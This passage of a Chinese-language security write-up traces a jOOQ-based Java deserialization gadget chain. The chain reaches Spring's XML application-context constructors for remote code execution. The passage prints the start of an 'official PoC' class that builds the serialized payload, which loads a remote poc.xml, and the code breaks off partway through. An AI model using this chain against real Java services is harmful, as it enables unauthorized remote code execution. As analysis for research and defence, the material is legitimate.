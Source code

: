 最终会调用到父类`org.jooq.impl.AbstractDataType`的 convert 方法
![](https://img-blog.csdnimg.cn/direct/d1279531826c40348b49d538448aa30a.png)

执行`Convert.convert(object, this.getType())`
![](https://img-blog.csdnimg.cn/direct/39163bf5994d44f38493c151a421ae23.png)

这里`this.getType()`的值为`this.uType`，并且为Class类型

跟进`org.jooq.impl.Convert#convert`
![](https://img-blog.csdnimg.cn/direct/e2810b3c10364408915c229d12c46bbb.png)

跟进convert0方法
![](https://img-blog.csdnimg.cn/direct/2b89358386d244b1a1d9f68160bfda0a.png)

调用到`Convert$ConvertAll`的from方法，看到1084行
![](https://img-blog.csdnimg.cn/direct/693578b3c74f4ecba5edecd2417cb74a.png)

循环遍历`this.toClass`的构造方法，直到找到只有一个参数并且该参数的类型不与类本身相同，最后实例化该类

很明显能想到：
```
org.springframework.context.support.ClassPathXmlApplicationContext
org.springframework.context.support.FileSystemXmlApplicationContext
```
两个经典的实例化RCE

官方poc：
```java
import cn.hutool.core.util.ReflectUtil;
import cn.hutool.core.util.SerializeUtil;
import com.fasterxml.jackson.databind.node.POJONode;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;
import org.jooq.DataType;
import org.springframework.context.support.ClassPathXmlApplicationContext;
import org.springframework.context.support.FileSystemXmlApplicationContext;

import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import java.lang.reflect.Constructor;
import java.util.Base64;
import java.util.Vector;

// JDK17 VM options:
// --add-opens java.base/java.lang=ALL-UNNAMED --add-opens java.base/java.util.concurrent.atomic=ALL-UNNAMED --add-opens java.base/java.lang.reflect=ALL-UNNAMED --add-opens java.desktop/javax.swing.undo=ALL-UNNAMED --add-opens java.desktop/javax.swing.event=ALL-UNNAMED
public class jackson_EventListenerList_ConvertedVal {
    public static void main(String[] args) throws Exception {
        gen("http://localhost:8000/poc.xml");
    }

    public static void gen(String url) throws Exception{
        Class clazz1 = Class.forName("org.jooq.impl.Dual");
        Constructor constructor1 = clazz1.getDeclaredConstructors()[0];
        constructor1.setAccessible(true);
        Object table = constructor1.newInstance();

        Class clazz2 = Class.forName("org.jooq.impl.TableDataType");
        Constructor constructor2 = clazz2.getDeclaredConstructors()[0];
        constructor2.setAccessible(true);
        Object tableDataType = constructor2.newInstance(table);

        Class clazz3 = Class.forName("org.jooq.impl.Val");
```